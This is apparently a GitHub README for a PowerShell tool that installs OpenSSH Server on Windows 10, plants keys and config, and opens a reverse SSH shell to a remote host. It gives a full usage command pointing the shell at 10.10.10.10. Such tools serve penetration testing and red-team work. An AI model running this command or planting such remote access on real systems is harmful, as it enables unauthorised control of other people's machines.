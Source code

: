 # lol-reverseSSHell
Living Off the LAN Reverse Shell over SSH for Windows 10

This script will install OpenSSH Server on Windows 10 via WindowsCapability. Then it will copy the sshd_config file, SSH private key, and authorized_keys file to the proper locations on the Windows host. Finally it creates a reverse SSH connection. The shell serves CMD.exe by default. Once you're in the cmd cli, you can type 'powershell' to get a PS shell. 

* Please generate NEW SSH KEYs. Use the repo keys only for testing. 

Usage: 
.\lol-reverseSSHell.ps1 -DestinationUserName aj -DestinationHost 10.10.10.10 -DestinationPort 22 -DestinationBindLocalPort 5555 -InstallOpenSSHServer yes Powershell prompt run ./LoL-ReverseSSHell.ps1

get-help .\lol-reverseSSHell.ps1 

get-help .\lol-reverseSSHell.ps1 -Examples

![alt text](https://github.com/ArronJablonowski/lol-reverseSSHell/blob/main/image.png?raw=true)

